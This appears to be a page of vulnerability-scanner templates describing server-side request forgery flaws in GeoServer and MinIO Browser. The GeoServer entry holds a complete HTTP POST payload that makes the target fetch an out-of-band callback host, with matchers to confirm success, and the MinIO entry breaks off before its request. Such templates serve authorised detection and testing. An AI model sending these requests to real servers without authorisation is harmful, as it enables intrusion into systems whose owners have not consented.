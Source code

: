 ## Description

- GeoServer through 2.18.5 and 2.19.x through 2.19.2 allows server-side request forgery via the option for setting a proxy host.
- severity - high
- tags - cve,cve2021,ssrf,geoserver

## Requests

### Step - 1

```
POST /geoserver/TestWfsPost HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

form_hf_0=&url=http://{{interactsh-url}}/geoserver/../&body=&username=&password=

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - word**

- words
  1. <html><head></head><body>

**Type - status**

- status
  1. 200

---

# MinIO Browser API - Server-Side Request Forgery

## Description

- MinIO Browser API before version RELEASE.2021-01-30T00-20-58Z contains a server-side request forgery vulnerability.
- severity - high
- tags - cve,cve2021,minio,ssrf,oast

## Requests

### Step - 1

